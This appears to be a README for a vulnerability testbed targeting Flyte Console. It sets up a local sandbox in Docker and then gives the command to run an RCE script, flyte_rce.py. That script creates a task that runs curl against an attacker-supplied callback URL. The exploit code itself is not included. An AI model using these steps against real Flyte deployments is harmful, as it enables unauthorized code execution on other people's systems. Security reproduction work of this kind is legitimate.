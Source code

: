 
# Flyte Console

Follow these steps to set up a testbed for Flyte Console:

1. **Set the Flyte Helm Chart Version**:
   For this setup, we're using version 1.13.1. You can find a list of all available versions at [Artifact Hub](https://artifacthub.io/packages/helm/flyte/flyte).

   ```bash
   export FLYTE_HELM_CHART_VERSION=1.13.1
   ```

2. **Run Flyte Sandbox**:
   Run the following command to start the Flyte Sandbox environment. 

   ```bash
   docker run --rm --privileged -e FLYTE_VERSION=${FLYTE_HELM_CHART_VERSION} \
   -p 30080:30080 -p 30081:30081 -p 30082:30082 -p 30084:30084 \
   cr.flyte.org/flyteorg/flyte-sandbox:latest
   ```
    This setup will make the Flyte Console accessible at `http://localhost:30081/console` and the API available at` http://localhost:30081/api/v1/`.


# Steps to reproduce

1. Install flytekit using the following command

```bash
pip3 install flytekit
```

2. Execute the `flyte_rce.py` script to perform RCE by invoking the callback URL. The usage details are provided below.

```bash
python3 flyte_rce.py  --url http://localhost:30081 --callback_url  $CALLBACK_URL
```
#### How RCE executed ?

`flyte_rce.py` script creates a task within the default project `flytesnacks` and domain `development`, utilizing the `docker.io/nginx:latest` Docker image, and runs the `curl` command with the specified `--callback_url` parameter.

